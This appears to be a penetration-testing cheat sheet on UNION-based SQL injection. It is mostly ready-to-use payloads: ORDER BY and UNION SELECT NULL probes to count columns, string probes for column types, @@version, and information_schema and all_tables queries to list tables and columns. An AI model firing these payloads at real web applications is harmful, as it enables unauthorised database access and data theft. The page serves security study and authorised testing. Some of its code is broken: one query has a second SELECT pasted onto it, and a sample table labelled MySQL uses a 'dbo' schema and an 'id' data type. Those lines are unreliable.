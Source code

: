 ### Determining the number of columns required

**First way**: Injecting a series of `ORDER BY` clauses and incrementing the specified column index until an error occurs. Example (the injection point is a quoted string within the `WHERE` clause)

```sql
' ORDER BY 1-- -
' ORDER BY 2-- -
' ORDER BY 3-- -
-- etc.
```

***

**Second way**: submitting a series of `UNION SELECT` payloads specifying a different number of null values. NULL is convertible to every common data type, so it maximizes the chance that the payload will succeed when the column count is correct.

```sql
' UNION SELECT NULL-- -
' UNION SELECT NULL,NULL-- -
' UNION SELECT NULL,NULL,NULL-- -
-- etc.
```

{{< hint style=notes >}}
**Note**: the application might actually return the database error in its HTTP response, but may return a generic error or simply return no results
{{< /hint >}}

### Column data types

Do you want a string?

```sql
' UNION SELECT 'a',NULL,NULL,NULL-- -
' UNION SELECT NULL,'a',NULL,NULL-- -
' UNION SELECT NULL,NULL,'a',NULL-- -
' UNION SELECT NULL,NULL,NULL,'a'-- -
```

If no error occurs and the response includes the injected string, the column is suitable for retrieving string data.

### Examining database

* `' UNION SELECT @@version--`
* Most database types (except Oracle) have a set of views called the information schema

```markdown
# MySQL
# information_schema.tables
TABLE_CATALOG    TABLE_SCHEMA    TABLE_NAME    TABLE_TYPE
MyDatabase       dbo             Products      BASE TABLE

# information_schema.columns
TABLE_CATALOG    TABLE_SCHEMA    TABLE_NAME    COLUMN_NAME    DATA_TYPE
MyDatabase       dbo             Users          UserId        id

# Find tables names
SELECT * FROM information_schema.tables
# Find columns names
SELECT * FROM information_schema.columns WHERE table_name = 'Users'SELECT * FROM information_schema.tables


# Oracle
SELECT * FROM all_tables
```